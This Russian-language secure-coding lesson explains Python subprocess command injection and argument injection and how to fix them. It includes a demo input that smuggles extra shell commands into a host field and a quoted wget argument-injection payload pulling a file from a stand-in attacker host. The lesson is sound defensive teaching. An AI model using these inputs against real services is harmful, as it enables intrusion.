

# subprocess с shell=True: инъекции в командную строку

Сервис проверяет доступность хоста: имя приходит из формы, а команда
собирается строкой — `ping -c 1` и дальше то, что прислал пользователь.
Такой код пишется в одну строчку и выглядит привычно для всякого, кто
писал шелл-скрипты. Проверим, что этот сервис сделает с вводом
`127.0.0.1; echo PWNED; id -u`. Точка с запятой здесь не опечатка, а
оператор шелла: как читаются такие символы и что такое само внедрение
команд, разобрано в теме `os-command-injection`. Прогоним один и тот же
ввод двумя способами, которые библиотека subprocess, стандартный модуль
Python для запуска внешних программ, считает разными.

Запуск первый: команда склеена строкой, и флаг `shell=True` зовёт шелл.

```python
# УЯЗВИМО — демонстрация, не для продакшена. Исполняемый, Python 3.14
import subprocess

host = "127.0.0.1; echo PWNED; id -u"
subprocess.run(f"ping -c 1 {host}", shell=True)
```

Вывод (строки статистики `ping` опущены):

```text
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms
PWNED
1000
```

Запуск второй: тот же ввод, но аргументы переданы списком.

```python
# Исполняемый, Python 3.14
import subprocess

host = "127.0.0.1; echo PWNED; id -u"
subprocess.run(["ping", "-c", "1", host])
```

Вывод (код возврата 2):

```text
ping: 127.0.0.1; echo PWNED; id -u: Name or service not known
```

Первый запуск выполнил три команды: `ping`, потом `echo`, потом `id`,
и напечатал идентификатор пользователя. Второй передал всю строку
программе `ping` одним аргументом, и `ping` честно ответил, что такого
хоста нет. Обратите внимание, чего во втором случае не произошло: шелла
в запуске не было вовсе, и разбирать метасимволы оказалось некому. Один
и тот же ввод дал два исхода, потому что разбирали его два разных
механизма, — на этом выборе и стоит вся тема. А что ответит второй
способ, если весь ввод — это `--help`? Ответ ждёт в разделе про атаки.

Это языковая грань внедрения команд: сам класс дефекта, с источником,
стоком и слепыми вариантами, разобран в теме `os-command-injection`.
Здесь разберём, когда Python зовёт шелл, а когда обходится без него,
и как чинится вызов, которому шелл всё же нужен.

## Как это работает

**Откуда это взялось.** Запуск команды строкой — привычка из
шелл-скриптов: там строка и есть язык. Модуль subprocess унаследовал
обе формы, и с ловушкой: самая короткая запись, строкой, требует
`shell=True`, а значит, разбор шеллом приезжает вместе с ней. Раздел
Security Considerations документации формулирует правило прямо:
библиотека сама шелл не зовёт, и любые символы безопасно передаются
потомку аргументами. А вот при явном `shell=True` экранировать пробелы
и метасимволы — обязанность уже приложения.

### Что получает программа: список аргументов

Разберёмся, что делает subprocess при запуске. Модуль создаёт
процесс-потомка — отдельно запущенную программу со своей памятью
и правами, например конвертер документов или git. Бытовое соответствие
здесь — поручение курьеру. Вы заполняете бланк с отдельными полями:
кому, что сделать, что взять с собой. Вы не пишете письмо в свободной
форме, где курьер сам решит, что относится к делу. Граница у сравнения
вот где: живой курьер волен проигнорировать распоряжение в поле
«адрес», а программа исполнит. И поля бланка типизированы: ввод
подменяет содержимое поля, а не само поле.

Такое поле бланка и есть аргумент. Запуск делает системный вызов exec,
то есть вызов функции ядра операционной системы; принимает он массив
строк, который называют argv. У `ping`
из нашего примера argv выглядит так: `ping`, `-c`, `1`, имя хоста.
Каждый элемент едет отдельным полем. Если в последнее поле записано
`127.0.0.1; echo PWNED; id -u`, то `ping` прочитает всё поле как имя
хоста. Отсюда ошибка `Name or service not known` во втором прогоне:
хоста с таким именем в сети нет.

### Что получает шелл: строка

Флаг `shell=True` меняет адресата: строку получает не `ping`,
а интерпретатор команд `/bin/sh` с параметром `-c`, который означает
«прочитай следующую строку как команды». Бланк с полями сменился письмом
в свободной форме, и читает его тот, кто понимает грамматику. Грамматика
эта знакома по теме `os-command-injection`: `;` — «выполни следующее»,
`&&` — «выполни при успехе», `|` — конвейер, `$(...)` и обратные
кавычки — подстановка результата команды. Во вводе из формы стоит `;`,
поэтому шелл выполняет `ping`, а за ним `echo` и `id`.

Склейка в первом запуске сделана f-строкой. Это строковый литерал
с префиксом `f`, внутри которого выражения в фигурных скобках
подставляются значениями: `f"ping -c 1 {host}"` становится текстом
команды ещё до всякого запуска. Идиома обычная для Python, и в ревью
она работает маячком: f-строка в аргументах запуска команды — почти
всегда находка.

Оба пути рядом:



**Описание схемы.** Схема читается сверху вниз двумя независимыми
ветками. Левая — вызов со списком: программа запускается напрямую,
и ввод доезжает одним из аргументов, не встречаясь с шеллом. Правая —
вызов строкой: строку целиком читает `/bin/sh`, и символы вроде `;`
получают значение операторов. Разница между ветками не в содержимом
ввода, а в том, кто его читает.

Заметим: вредоносного ввода как отдельной сущности здесь нет. Есть
строка, которую два разных читателя читают по-разному.

## Как это атакуют

### Инъекция команды

Это CWE-78 (каталог Common Weakness Enumeration), категория `A05:2025`
издания OWASP. Атакующему не нужен эксплойт — нужен ввод, который шелл
прочитает как новую команду. Склейка из введения превращает
`ping -c 1 <ввод>` в три команды. Вместо `id -u` там окажется то, что
нужно атакующему: чтение файла, выгрузка данных, обратное соединение.
Команда выполняется с правами сервиса. Как добыть результат, когда
вывод не возвращается, разобрано в слепых вариантах темы
`os-command-injection`.

### Инъекция аргумента: флаг без всякого шелла

Вторая половина механики тоньше. Уберём шелл совсем, передав ввод
списком, — останется ли он безвредным? Не всегда: ввод остаётся
аргументом, а аргумент, начинающийся с дефиса, программа читает как
флаг. Памятка OWASP называет это инъекцией аргумента. В рамке с
курьером: вы заполнили бланк, но в поле «адрес» написали «а ещё забери
деньги». Формально это одно поле, но исполнитель читает его по своим
правилам — и для него это новое распоряжение.

Прогон с программой `ls`, ввод — `--help`:

```python
# Исполняемый, Python 3.14
import subprocess

subprocess.run(["ls", "--help"])
```

Вывод (начало; всего 177 строк справки):

```text
Usage: ls [OPTION]... [FILE]...
List information about the FILEs (the current directory by default).
```

Шелла в запуске не было, а `ls` напечатала собственную справку — хотя
ревьюер видел в коде только «вызов ls на файле». Ответ на вопрос из
введения тот же: `ping` с вводом `--help` напечатал бы справку `ping`.
Лечится такое разделителем `--`: стандарт POSIX предписывает программам
читать всё после него как операнды, то есть данные, даже начинающиеся
с дефиса. Разделитель в деле показан в разделе про защиту.

## Как это выглядит в коде

Ревьюер ищет четыре формы. Не заглядывая в выноски, подпишите к каждой,
где в этой строке ввод встречается с шеллом.

```python
# УЯЗВИМО — демонстрация, не для продакшена
import os
import subprocess

subprocess.run(f"ping -c 1 {host}", shell=True)      # (1)
os.system(f"convert {src} {dst}")                    # (2)
subprocess.getoutput(f"git log {branch}")            # (3)
subprocess.run(["sh", "-c", f"tar cf {out} {src}"])  # (4)
```

1. Классическая форма: f-строка и `shell=True` в одном вызове — строку
   разбирает `/bin/sh`.
2. `os.system` — старый способ запуска, оставшийся со времён до
   subprocess: шелл внутри него всегда, флага тут нет и не нужен.
3. Обёртка `getoutput` идёт через шелл всегда: шелл и есть её
   устройство, параметра `shell` у неё нет. Родственная `check_output`
   со строкой даёт тот же шелл, но только с явным `shell=True`.
4. Явный `sh -c` со склейкой — это `shell=True`, записанный руками:
   программа из списка здесь сам шелл.

Обёртка, которая выглядит защитой, — `shlex.quote` вокруг ввода.
Функция экранирует строку для шелла: прогон показывает, что ввод
превращается в `'127.0.0.1; echo PWNED; id -u'` в одиночных кавычках,
и метасимволы внутри теряют силу. Но гасит она только разбор шелла.
Аргумент-флаг она не лечит: значение `--output=/tmp/x` в кавычках
остаётся тем же флагом для программы, которая его получит.

Ложное срабатывание: вызов со списком и фиксированной командой, где
ввод проходит валидацию по образцу, — законен. Сомнительное место
другое: список, где чужая строка стоит аргументом без `--` перед ним.
Такой вызов зависит от того, как читает аргументы конкретная программа.

## Как защититься

Правило одно: команда фиксирована в коде, аргументы едут списком,
шелл не вызывается. Вот починка сервиса из введения:

```python
# Исправлено. Исполняемый, Python 3.14
import subprocess

subprocess.run(["ping", "-c", "1", "--", host], check=True)
```

Читаем по плану: где команда, где ввод, что между ними. Имя программы
и её флаги зашиты в коде, и ввод не может их заменить. Ввод едет
отдельным элементом списка и доезжает одним аргументом. Разделитель
`--` перед ним говорит `ping` читать дальнейшее как операнд, а не как
флаг. Параметр `check=True` — идиома Python: при ненулевом коде
возврата поднимается исключение, и отказ программы не теряется.

Памятка OWASP добавляет два слоя поверх. Первый: если без шелла никак,
ввод экранируется `shlex.quote`. Так бывает, когда нужен конвейер или
перенаправление вывода. Сама команда при этом выбирается из короткого
списка разрешённых, а не из ввода. Второй слой: аргументы из ввода
валидируются по образцу — в памятке примером идёт регулярное выражение
на допустимые символы и длину. Это отдельная проверка, а не замена
списку.

**Когда канон не подходит.** Настоящий конвейер из двух программ без
шелла собирается из двух объектов `Popen` со связанными потоками.
Вывод первой программы подключается на вход второй напрямую, без строки
для шелла. Запись длиннее, но остаётся на безопасном пути. На Windows
правила свои: пакетные файлы операционная система запускает через
интерпретатор независимо от аргументов библиотеки, и документация
предлагает там как раз `shell=True`. Ревью кросс-платформенного кода
обязано это учитывать: WSTG-v42-INPV-12 проверяет класс на обеих
платформах.

## Как убедиться, что защита работает

Проверка — тем же вводом из введения, прогон на исправленном варианте:

```python
# Исполняемый, Python 3.14
import subprocess

host = "127.0.0.1; echo PWNED; id -u"
subprocess.run(["ping", "-c", "1", "--", host])
```

Вывод (код возврата 2):

```text
ping: 127.0.0.1; echo PWNED; id -u: Name or service not known
```

Команда осталась одна: ни `PWNED`, ни идентификатора пользователя
в выводе нет. Шелл из запуска убран, а `--` не дал бы прочитать ввод
как флаг, даже начнись он с дефиса. Такой прогон занимает минуту
и закрывает спор «у нас вход доверенный»: он показывает обе стороны
границы сразу.

Сводная проверка для ревью чужого кода:

1. Проверьте, что ни один вызов `subprocess`, `os.system` или
   `getoutput` не собирает команду строкой из внешних данных (CWE-78).
2. Проверьте, что `shell=True` отсутствует или обоснован конвейером,
   а ввод в нём экранирован `shlex.quote` и валидирован по образцу.
3. Проверьте, что имя программы зашито в код, а не приходит из запроса
   или конфигурации (ASVS v5.0-1.2.5).
4. Проверьте, что перед пользовательским операндом стоит разделитель
   `--` там, где программа его поддерживает.
5. Проверьте, что у каждого аргумента из ввода проверено, не читается
   ли он программой как флаг.
6. Проверьте, что код, рассчитанный и на Windows, учитывает особый
   запуск пакетных файлов (WSTG-v42-INPV-12).

**Зачем это в работе AppSec-инженера.** Вызов внешней команды
встречается в каждом втором сервисе: конвертеры документов, сборка
артефактов, работа с git. Признак дефекта виден в одной строке, и
находка почти всегда спорная: «у нас вход доверенный». Прогон из
введения — готовый ответ на этот спор.

## Частая ошибка

Встречается мнение, что `shlex.quote` на входе закрывает вопрос
целиком. Ход мысли понятен: кавычки гасят метасимволы, и разбирать
шеллу станет нечего. Держит ли такая обёртка ввод `--output=/tmp/x`?

**Кавычки лечат разбор шелла и не лечат смысл аргумента.** Механика из
раздела выше: после экранирования ввод доезжает одним аргументом. Но
программа этот аргумент всё равно читает по своим правилам — и если
это флаг, она его исполнит.

Контрпример уже был в разделе про атаки: ввод `--help` для `ls`. Ввод
однословный, кавычки ничего в нём не меняют, а программа исполняет
флаг. То же сделает любой однословный флаг вроде `--output=/tmp/x`,
если остальные операнды уже стоят в шаблоне команды. Кавычки были на
месте; инъекция команды не сработала; инъекция аргумента — сработала.

А пример из памятки OWASP, ввод
`--directory-prefix=. http://attacker.example/x` для `wget`, — про
другой случай. Там экранирование без кавычек: функция `escapeshellcmd`
гасит метасимволы, но не разбивку на слова. Пробел выживает, до
программы доезжают два аргумента, флаг и адрес, и чужой файл
сохраняется туда, куда указано. Памятка сама показывает обратный ход:
с закавычиванием (функция `escapeshellarg`, родня нашего
`shlex.quote`) весь ввод доезжает одним аргументом, и атака не
проходит. Граница обёртки стала точной: кавычки лечат разбор шелла
и разбивку на слова, но не смысл однословного флага.

## Попробуй сам

Найдите в своём проекте на Python все вызовы `subprocess`, `os.system`,
`getoutput` и `check_output`. Один вызов со склейкой строки перепишите
на список аргументов. Прогоните обе версии на вводе с `;` и на вводе
с флагом, начинающимся с дефиса.

Одна подсказка: увидеть разницу проще всего через ошибку целевой
программы — без шелла она получит всю строку одним аргументом и скажет
об этом в stderr.

**Критерий выполнения** наблюдаемый: два вывода одного ввода. До правки
метасимволы исполнились; после правки весь ввод виден как один
аргумент. Для ввода с флагом записано, сработал он или нет.

## Проверь себя

1. Тот же ввод `a; id`, но вызов без шелла:

    ```python
    import subprocess
    subprocess.run(["echo", "a; id"])
    ```

    Предскажите, что напечатает этот запуск.

2. Конвертер документов зовёт `os.system(f"convert {src} {dst}")`, оба
   значения приходят из запроса. Выберите починку.

   A. Обернуть `src` и `dst` в `shlex.quote`, оставив `os.system`.

   B. Перейти на `subprocess.run` со списком аргументов, разделителем
   `--` и валидацией входа.

   C. Отклонять вход, где встречаются символы `;`, `&` и `|`.

3. Почему вызов `subprocess.run(["sh", "-c", f"tar cf {out} {src}"])` —
   это тот же `shell=True`, хотя флага в нём нет?

4. В чужом коде встретилась строка:

    ```python
    from subprocess import getoutput
    out = getoutput("git log " + branch)
    ```

    Разбирает ли здесь шелл значение `branch`, и откуда это видно?

5. Возврат к теме `os-command-injection`: назовите источник и сток
   дефекта в примере из введения этой темы.

<details markdown="1">
<summary>Ответ 1</summary>

1. Строку `a; id` — точка с запятой доезжает до `echo` текстом. Без
   `shell=True` строки запуска не существует: программа получает
   аргументы списком, и разбирать метасимволы некому. Прогон: `python3
   -c 'import subprocess; subprocess.run(["echo", "a; id"])'` печатает
   `a; id`.

</details>

<details markdown="1">
<summary>Ответ 2: разбор вариантов</summary>

2. Верно: B.

   A. Кавычки гасят только разбор шелла. Значение `--output=/tmp/x` в
      кавычках остаётся флагом для программы, которая его получит, —
      это разбор из «Частой ошибки» этой темы.

   B. Верно. Шелл убирается из пути целиком, `--` закрывает чтение
      операнда как флага, а валидация по образцу отсекает вход, которого
      конвертер ждать не может.

   C. Чёрный список ломается о следующий метасимвол за его пределами:
      подстановки `$()`, обратные кавычки, перевод строки. Перечислить
      грамматику шелла списком запретов нельзя.

</details>

<details markdown="1">
<summary>Ответ 3</summary>

3. Потому что шелл здесь вызван руками: программа — `sh`, и её
   аргумент `-c` читает следующую строку как команды. Склейка ввода в
   эту строку даёт тот же разбор, что делает `shell=True`, только без
   флага-маячка в ревью.

</details>

<details markdown="1">
<summary>Ответ 4</summary>

4. Разбирает. Обёртка `getoutput` идёт через шелл всегда — у неё нет
   параметра `shell`, потому что шелл и есть её устройство. Признак в
   ревью: строка собирается конкатенацией, а формы «список аргументов»
   у `getoutput` не существует.

</details>

<details markdown="1">
<summary>Ответ 5</summary>

5. Источник — поле формы с именем хоста, сток — вызов интерпретатора
   команд через `shell=True`. Между ними нет ни одного контроля: ввод
   доезжает до шелла без изменений.

</details>

## Источники

1. subprocess — Subprocess management, документация Python 3.14; реестр
   `python-subprocess`. Разделы: Security Considerations, аргументы
   shell и args конструктора Popen, примечание о запуске пакетных файлов
   на Windows.
   <https://docs.python.org/3/library/subprocess.html>
2. OS Command Injection Defense Cheat Sheet, OWASP Cheat Sheet Series;
   реестр `owasp-cs-oscmd-defense`. Разделы: Argument Injection, Primary
   Defenses (не звать шелл, параметризация и валидация), Note A с
   метасимволами, пример с wget и escapeshellcmd.
   <https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html>

Каркас этапа: у этапа 7 общих унаследованных источников нет; каждая тема
опирается на документацию своего языка и на материалы этапа 1 по
классам дефектов.

**Маркеры уверенности.** **Проверено лично** 2026-10-03 на Python 3.14.7
(Linux): строка `127.0.0.1; echo PWNED; id -u` исполняется тремя
командами при `shell=True` и доезжает одним аргументом при списке
(`ping` отвечает «Name or service not known», код возврата 2); вызов
со списком и разделителем `--` перед вводом даёт тот же отказ `ping`;
`echo` с метасимволами печатает их как текст; `ls` с аргументом `--help`
печатает справку в 177 строк (инъекция аргумента без шелла);
`shlex.quote` заключает ввод в одиночные кавычки. Разбор аргументов
проверен прогоном getopt 2026-10-03: двухсловный ввод
`--directory-prefix=. http://attacker.example/x`, доехав одним
аргументом, адреса не оставляет, а двумя аргументами доезжает как флаг
и адрес. Форма `sh -c` со склейкой эквивалентна `shell=True` — по
документации. Раздел Security Considerations и памятка OWASP открыты
лично 2026-09-02; пример памятки про `wget` и `escapeshellcmd` перечитан
2026-10-03: закавычивание тот же ввод останавливает. Поведение на
Windows здесь не воспроизводилось — в тексте оно отражено по
документации subprocess.
